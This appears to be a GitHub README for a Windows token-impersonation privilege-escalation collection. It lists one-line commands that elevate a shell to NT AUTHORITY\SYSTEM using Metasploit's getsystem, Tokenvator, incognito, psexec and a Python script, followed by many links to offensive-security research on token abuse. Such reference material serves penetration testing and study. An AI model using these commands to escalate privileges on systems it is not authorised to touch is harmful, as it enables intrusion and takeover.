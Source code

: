 ## tokenx_privEsc
with metasploit <br>
`meterpreter> getsystem`
<br><br>

without metasploit <br>
`C:\temp> Tokenvator.exe getsystem cmd.exe` <br>
![test1](https://github.com/sailay1996/tokenx_privEsc/blob/master/img/tokenpriv1.jpg) <br><br>

`C:\temp> incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe` <br>
![test2](https://github.com/sailay1996/tokenx_privEsc/blob/master/img/tokenpriv2.jpg) <br><br>


`C:\temp> psexec -s -i cmd.exe` <br>
![test4](https://github.com/sailay1996/tokenx_privEsc/blob/master/img/tokenpriv4.jpg) <br><br>


`C:\temp> python getsystem.py` <br>
![test3](https://github.com/sailay1996/tokenx_privEsc/blob/master/img/tokenpriv3.jpg) <br><br>


### more about tokens privilege <br>
### Resources:
https://github.com/py7hagoras/GetSystem <br>
https://gist.github.com/mvelazc0/9a4f05a67a12a86181e89f6026a020f2 <br>
https://blog.xpnsec.com/becoming-system/ <br>
https://github.com/hatRiot/token-priv <br>
https://powersploit.readthedocs.io/en/latest/Privesc/Get-System/ <br>
https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/ <br>
https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/ <br>
https://hunter2.gitbook.io/darthsidious/privilege-escalation/token-impersonation <br>
https://heynowyouseeme.blogspot.com/2019/08/the-useage-of-9-permissions-for-windows.html <br>
https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation <br>
https://github.com/sailay1996/NP_impersonate <br>
https://github.com/Cn33liz/EasySystem <br>
https://labs.mwrinfosecurity.com/blog/incognito-v2-0-released/ <br>
https://decoder.cloud/2019/03/06/windows-named-pipes-impersonation/ <br>
https://0x00-0x00.github.io/research/2018/10/17/Windows-API-and-Impersonation-Part1.html <br>
https://0x00-0x00.github.io/research/2018/10/21/Windows-API-And-Impersonation-Part-2.html <br>
https://pentestlab.blog/tag/token-impersonation/ <br>
https://github.com/0xbadjuju/Tokenvator/ <br>
https://decoder.cloud/2019/07/04/creating-windows-access-tokens/ <br>
https://github.com/decoder-it/whoami-priv <br>
https://decoder.cloud/2018/02/02/getting-system/ <br>
https://gist.githubusercontent.com/realoriginal/19c2c9c3b14ec65c203dd796ad44e5c5/raw/b4900e95506d8dc4d3b415ad9b27c6cc73544d94/np_impersonate.c <br>
